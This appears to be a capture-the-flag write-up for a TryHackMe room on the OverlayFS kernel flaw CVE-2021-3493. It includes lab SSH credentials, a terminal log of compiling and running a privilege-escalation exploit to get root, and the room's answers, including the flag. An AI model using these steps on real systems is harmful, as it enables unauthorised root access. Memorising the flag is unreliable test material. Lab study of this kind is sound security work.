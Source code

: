 # Task 1 What is OverlayFS?
----

OverlayFS is a Linux kernel module that allows the system to combine several mount points into one, so that you can access all the files from each within one directory structure.

It's often used by live USBs, or some other specialist applications. One use is having a read only root file system, and another partition "overlayed" with that to allow applications to write to a temporary file system.

More resources are included in the final task (Further reading) if you'd like to learn more about OverlayFS and this exploit.

Room Banner by Maksym Kaharlytskyi on Unsplash

----

# Task 2 CVE-2021-3493 - OverlayFS Exploit
----

>>About the vuln

>>Recently, SSD-Disclosure released a proof of concept (and a great explanation) for an Ubuntu kernel exploit (https://ssd-disclosure.com/ssd-advisory-overlayfs-pe/).
>>This vulnerability is particularly serious, as overlayfs is a kernel module that is installed by default on Ubuntu 1804 Server.
>>If the system is vulnerable, you can very easily escalate from any user to root, as long as you can run a binary.
>>If there isn't a C compiler installed on the machine, you can compile the binary statically elsewhere and copy just the binary over.
>>Credentials for SSH
```
Username: overlay
Password: tryhackme123
```
>>If you're using the web-based machine, open it in full screen (by clicking the icon) to copy/paste the exploit code.

```bash
root@ip-10-10-26-117:~# ssh overlay@10.10.27.41
The authenticity of host '10.10.27.41 (10.10.27.41)' can't be established.
ECDSA key fingerprint is SHA256:qQKwP0+jnP7TXFnfg6ugLRtnsl2xrr+xfBRCqa5xx3c.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.27.41' (ECDSA) to the list of known hosts.
overlay@10.10.27.41's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Thu Jan  6 22:27:01 2022 from 10.100.2.197
overlay@overlayfs:~$ 
overlay@overlayfs:~$ nano exploit.c
overlay@overlayfs:~$ ls
exploit.c
overlay@overlayfs:~$ gcc -o exploit exploit.c
overlay@overlayfs:~$ ./exploit 
bash-4.4# ls
exploit  exploit.c  ovlcap
bash-4.4# cd /root
bash-4.4# ls
flag.txt
bash-4.4# cat flag.txt 
thm{27aaa5865a52dcd4cb04c0e0a2d39404}

```

----

# Task 3 Further reading 
----

>>Want to know more about OverlayFS?
https://yagrebu.net/unix/rpi-overlay.md - Read only root file system with overlayfs to allow applications to run normally.

https://wiki.archlinux.org/index.php/Overlay_filesystem - The Arch Wiki's page on OverlayFS (I don't use Arch BTW)

>>Want to know more about this specific CVE?
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3493 - Mitre's CVE entry for this vulnerability, which includes many further links.

https://ssd-disclosure.com/ssd-advisory-overlayfs-pe/ - This is where we got the PoC code, and it explains the vulnerability very well.

----

# ANSWER THE FOLLOWING :
----

1.I have a very rough overview of what OverlayFS is
>>No answer needed

2.Deploy the machine with the Start Machine button in this task and wait up to 2 minutes for the VM to boot.
>>No answer needed

3.SSH into the machine with the credentials provided in the task text.
>>No answer needed

4.Grab the source code for the exploit from SSD-Disclosure here and save it as exploit.c on the target machine.
>>No answer needed

5.Compile the exploit with gcc. If you're finding this difficult, a command is given in the hints.
>>No answer needed

Run your compiled exploit, and get root!
6.What's the flag in /root/?
>>thm{27aaa5865a52dcd4cb04c0e0a2d39404}

7.Hope you've enjoyed this short room.
>>No answer needed
----